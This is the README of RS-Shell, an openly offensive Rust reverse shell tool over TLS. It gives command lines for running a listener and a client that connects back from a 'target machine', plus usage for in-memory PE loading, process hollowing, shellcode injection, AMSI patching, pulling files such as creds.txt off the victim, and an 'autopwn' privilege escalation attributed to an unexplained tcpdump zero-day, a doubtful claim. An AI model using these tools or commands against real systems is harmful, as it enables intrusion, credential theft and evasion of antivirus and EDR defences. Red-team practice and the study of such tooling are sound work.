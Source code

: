 *"The worst Rust programmer you have ever seen"* - my mom

*"But at least it works"* - still my mom, but not about me

# RS-Shell

RS-Shell is a TLS over TCP reverse shell developped in Rust with client and server embedded in the same binary. This project has been mainly started to learn Rust with a tool that could help me in my work, and the code quality could be greatly improved.

Client and server are both cross-platform and work on Windows and Linux systems.

For Windows client, additonal features have been integrated for offensive purpose, and they will be improved in futur commits.

For this purpose, I have chosen to mainly use the official [windows_sys](https://docs.rs/windows-sys/latest/windows_sys/) crate to interact with the Win32API and the [ntapi](https://docs.rs/ntapi/latest/ntapi/) crate for the NTAPI.

The project is thought in module. This means that you can easily add or remove features to and from it, and you can also easily take parts from it to put them in your own project.

## Features

For the moment, the following features are present:

* Semi-interactive reverse shell via TLS over TCP
* File upload and download between server and client
* Start a PowerShell interactive session with the ability to patch the AMSI in memory
* Loading features :
  * Load and execute a PE in the client memory
  * Load and execute a PE in a remote process memory
  * Load and execute a shellcode in a remote process memory
* Autopwn the client machine and elevate the privileges to SYSTEM or root by exploiting a 0day in `tcpdump`

## How to

### Setup

I have set a `dummy` domain for hostname validation in the `connect()` function for both clients. If you use a signed certificate for a real server, you can change it and remove the unsecure functions that remove hostname and certs validations.

By default, only the `error`, `warn` and `info` logs are displayed. If you also need the `debug` ones (can be usefull for the loading features), you can change this in `main.rs` by modifying `::log::set_max_level(LevelFilter::Info);` to `::log::set_max_level(LevelFilter::Debug);`.

A new self-signed TLS certificate can be obtained like this :

```bash
openssl req -newkey rsa:2048 -nodes -keyout private.key -x509 -days 365 -out certificate.cer
openssl pkcs12 -export -out certificate.pfx -inkey private.key -in certificate.cr
```

### Compilation

The project can be compiled with `cargo build --release` on Windows or Linux and the binary will be present in `target/release/`, or the target name if a target is specified.

Tu compile for a different target than your current OS you can use, for example, `cargo build --release --target x86_64-unknown-linux-gnu` (be sure to use the appropriate toolchain and to have all the required dependencies).

The project compilation has been tested with the following Rust toolchains :

* `stable-x86_64-pc-windows-gnu`
* `stable-x86_64-pc-windows-msvc`
* `stable-x86_64-unknown-linux-gnu`

If you compile the project for a Linux target, the "Windows features" will be removed at compilation.
Should run on all Windows and Linux versions (I have hope).

### Usage

```plain
Usage: rs-shell.exe [OPTIONS] --side <side> --ip <ip> --port <port>

Options:
  -s, --side <side>            launch the client or the listener [possible values: c, l]
  -i, --ip <ip>                IP address to bind to for the listener, or to connect to for the clien
  -p, --port <port>            port address to bind to for the listener, or to connect to for the client
      --cert-path <cert_path>  path of the TLS certificate (in PFX or PKCS12 format) for the server
      --cert-pass <cert_pass>  password of the TLS certificate for the server
  -h, --help                   Print help
  -V, --version                Print version

In a session, type 'help' for advanced integrated commands
```

To obtain a session, just launch the binary in listener mode on your machine with `rs-shell.exe -s l -i IP_to_bind_to -p port_to_bind_to --cert-path certificate_path --cert-pass certificate_password`. For example `rs-shell.exe -s l -i 0.0.0.0 -p 4545 --cert-path certificate.pfx --cert-pass "Password"`.

Then, on the target machine launch the client to connect back to your server with `rs-shell.exe -s c -i IP_to_connect_to -p port_to_connect_to`. For example `rs-shell.exe -s c --ip 192.168.1.10 --port 4545`.

### Advanced commands

```plain
> help
[+] Custom integrated commands :

    [+] Loading commands
    > load C:\path\to\PE_to_load
        load a PE file in the client process memory and executes it. This could kill the reverse shell !
    > load -h C:\path\to\PE_to_load C:\path\to\PE_to_hollow
        load a PE file in a remote process memory with process hollowing and executes it
    > load -s C:\path\to\shellcode.bin C:\path\to\PE_to_execute
        load a shellcode in a remote process memory and start a new thread with it

    [+] Bypass commands
    > powpow
        start a new interactive PowerShell session with the AMSI patched in memory

    [+] Network commands
    > download C:\file\to\download C:\local\path
        download a file from the remote system
    > upload C:\local\file\to\upload C:\remote\path\to\write
        upload a file to the remote system

    [+] Special commands
    > autopwn
        escalate to the SYSTEM or root account from any local account by exploiting a zero day
```

The `load` commands permit to load and execute directly in memory:

* `load` loads and execute a PE in the client memory. This will kill the reverse shell, but that could be usefull to launch a C2 implant in the current process for example
* `load -h` loads and execute a PE in a created remote process memory with process hollowing. You don't lose your reverse shell session, but the process hollowing will be potentially flag by the AV or the EDR
* `load -s` loads and execute a shellcode from a `.bin` file in a created remote process memory. You don't lose your reverse shell session, and you don't have to drop the bin file on the target, since the shellcode will be transfered to the target via the TCP tunnel

For example : `> load -h C:\Windows\System32\calc.exe C:\Windows\System32\cmd.exe`. This will start a `cmd.exe` process with hollowing, load a `calc.exe` image in the process memory, and then resume the thread to execute the calc.

`powpow` starts an interactive PowerShell session with a PowerShell process where the AMSI `ScanBuffer` function has been patched in memory. This feature is not particularly opsec.

`download` permits to download a file from the client to the machine where the listener is running. For example `download C:\Users\Administrator\Desktop\creds.txt ./creds.txt`.

`upload` permits to upload a file on the client machine. For example `upload ./pwn.exe C:\Temp\pwn.exe`.

`autopwn` permits to escalate to the **SYSTEM or root account** with a 0day exploitation. Just type `autopwn` and answer the question.

## Todo

- [ ] Move all the Win32API related commands to the NTAPI with indirect syscalls
- [ ] Implement other injection techniques
- [ ] Implement a port forwarding solution
- [ ] Find a way to create a fully proxy aware client
- [ ] Implement a reverse socks proxy feature

## Acknowledgements

* [OffensiveRust](https://github.com/winsecurity/Offensive-Rust) by [winsecurity](https://github.com/winsecurity). This project would never have existed without him. Many of functions, structures, and tricks present in `rs-shell` come from this project
* [OffensiveRust](https://github.com/trickster0/OffensiveRust) by [trickster0](https://github.com/trickster0)
* Multiple projects by [memN0ps](https://github.com/memN0ps)
* [RustPacker](https://github.com/Nariod/RustPacker) by [Nariod](https://github.com/Nariod)
* Nik Brendler's blog posts about pipe communication between process in Rust. [Part 1](https://www.nikbrendler.com/rust-process-communication/) and [Part 2](https://www.nikbrendler.com/rust-process-communication-part-2/)

